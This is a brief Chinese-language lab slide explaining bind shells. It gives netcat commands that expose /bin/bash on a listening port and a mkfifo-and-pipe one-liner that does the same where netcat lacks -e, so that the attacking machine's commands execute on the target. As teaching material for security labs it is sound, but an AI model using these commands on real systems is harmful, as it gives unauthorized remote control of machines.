

# 正向shell
服务器监听，Client向Server建立连接
服务器: nc -l -p 1567 -e /bin/bash
    -l  listen模式，用于服务器端
    -p 监听端口
    -e 连接建立后运行的程序
攻击机（客户端）: nc 172.17.0.2 1567
(本Seed虚拟机的nc不支持-e参数，但是可以通过重定向实现）
#rm –f /tmp/f;mkfifo /tmp/f;   //创建管道文件
#cat /tmp/f | /bin/sh -i 2>&1 |nc -l 1234 >/tmp/f

在攻击机上输入命令，该命令在靶机上运行，并且在攻击机上显示命令执行的结果